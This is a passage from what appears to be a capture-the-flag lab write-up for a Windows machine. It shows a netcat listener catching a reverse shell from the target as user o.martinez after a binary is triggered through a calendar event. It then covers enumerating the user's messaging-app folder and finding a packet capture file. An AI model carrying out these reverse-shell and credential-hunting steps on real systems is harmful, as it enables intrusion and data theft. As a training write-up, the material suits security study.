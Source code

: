 <figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

After you create the event, you may want to right click on the empty calendar and select "sync calendar", to make sure it gets pushed upstream. It may also be worth nothing, that I found some permission oddities when moving the binary over to the C:\memes folder (as in, o.martinez did not have execution permissions). However, when uploading directly to that folder (specifically with winrm), those permission issues went away.

With all these, we catch a shell for o.martinez:

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.55] from (UNKNOWN) [10.129.171.160] 50099
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
infiltrator\o.martinez
```

My immediate interest was inside his home folder, as this is the new level of access we have, since quick permission checks showed nothing interesting. If nothing was yielded from home folder enumeration, then it would make sense to start digging deeper into other avenues.

The immediate suspect for home folder enumeration, besides obvious folders like Desktop or Documents, is the Output Messenger appdata folder. We already know that there can be useful items inside of there. Sure enough after some basic enumeration, we find ourselves a pcapng file:

```
PS C:\users\o.martinez\appdata\roaming\output messenger\faaa\Received Files\203301> ls
ls


    Directory: C:\users\o.martinez\appdata\roaming\output messenger\faaa\Received Files\203301


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/23/2024   4:10 PM         292244 network_capture_2024.pcapng                                           


PS C:\users\o.martinez\appdata\roaming\output messenger\faaa\Received Files\203301> 
```
